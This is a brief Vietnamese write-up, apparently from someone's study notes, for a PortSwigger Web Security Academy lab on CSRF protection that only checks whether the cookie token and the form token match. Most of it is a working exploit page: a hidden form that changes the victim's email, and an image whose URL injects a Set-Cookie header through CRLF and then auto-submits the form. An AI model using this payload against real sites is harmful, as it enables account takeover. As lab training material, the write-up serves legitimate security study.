 # [Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

Lỗ hổng: CSRF protection hoạt động bằng cách server chỉ so sánh token ở cookie và body với nhau, còn token hợp lệ hay không thì không kiểm tra => tạo token bừa được:

Làm tương tự như [lab-token-tied-to-non-session-cookie](../../../../../../learn/portswigger/Web%20Security%20Academy/Cross-site%20request%20forgery%20%28CSRF%29/lab/practitioner/5.%20lab-token-tied-to-non-session-cookie.md)


```
<html>
<body>
        <form action="https://0a9800d604a8e53bc03c9d35003f0017.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input required="" type="hidden" name="csrf" value="8h6f9ldE1b7Iy3wG9wDsXQGcqYPGjBFt">
        </form>

            <img src="https://0a9800d604a8e53bc03c9d35003f0017.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=8h6f9ldE1b7Iy3wG9wDsXQGcqYPGjBFt%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```
